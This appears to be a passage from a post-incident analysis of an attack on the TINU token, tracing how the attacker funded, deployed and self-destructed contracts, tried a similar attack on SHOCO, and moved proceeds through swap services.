



On January 19th, the attacker first obtained initial funds through Railgun.

Then, they deployed an unused [contract](https://etherscan.io/tx/0x8f194bd80afa9aa825b491327e072e552b6b513f42bf9320ddfe47b579770cef) and a [contract](https://etherscan.io/tx/0xf656affcd5c11ca07fb141043d85dba9d9682c08eef020ac6b724ad240ed2be8) that was called but failed.



By checking the failed transaction, it can be seen that there was a similar vulnerability in the [SHOCO token](https://etherscan.io/address/0x31a4f372aa891b46ba44dc64be1d8947c889e9c6), and an attack was launched against it. However, this attack was [frontrun](https://etherscan.io/tx/0x2e832f044b4a0a0b8d38166fe4d781ab330b05b9efa9e72a7a0895f1b984084b) by a bot.

A simple analysis of the first contract after decompilation reveals that it is also targeting the SHOCO token.

The last [contract](https://etherscan.io/address/0xdb2d869ac23715af204093e933f5eb57f2dc12a9) deployed by the attacker is the attack contract targeting TINU. According to the earlier fund flow, Flashbots' service was used during this attack, thus avoiding frontrunning. At the same time, it self-destructs after the attack is completed.

Finally, after some time, the attacker transferred the attack proceeds through FixedFloat and SimpleSwap.


